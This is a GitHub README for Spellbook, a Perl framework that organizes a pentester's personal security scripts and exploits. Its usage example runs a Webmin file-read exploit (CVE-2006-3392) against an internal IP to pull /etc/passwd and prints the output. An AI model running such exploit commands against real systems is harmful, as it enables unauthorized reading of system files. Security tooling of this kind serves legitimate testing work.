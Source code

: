 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A micro-framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.1.0-blue.svg">
    </a>
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](#references)

The main focus of this “micro-framework” is to keep my personal scripts organized and make them available in a structure where I can reuse the code that has already been written to write something else. Here you will find my “spellbook”: scripts, exploits and other small things I wrote during my bug hunting jorney, pentesting or red teaming missions.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpan install Getopt::Long Mojo::File Mojo::JSON
```

---

### How to use

```
Spellbook v0.1.0
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-t, --target     Set a target
	-p, --parameter  Set a value for a module parameter
```

### Example

```bash
# Searching for exploits 
$ perl spellbook.pl --search exploits

Module: Exploits::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Exploits::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================
...

# Using an exploit
$ perl spellbook.pl -m Exploits::CVE_2006_3392 -t http://172.30.0.15:10000/ -p /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
...
```

If you are interested in developing new modules, a good start is to read the [development guide](/docs/Developer_Guide.md).

---

### Contribution

- Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕) This project follows the best practices defined by this [style guide](https://heitorgouvea.me/projects/perl-style-guide).

---

### License

- This work is licensed under [MIT License.](/LICENSE.md)

---

### References

1. [https://en.wikipedia.org/wiki/Flow-based_programming](https://en.wikipedia.org/wiki/Flow-based_programming)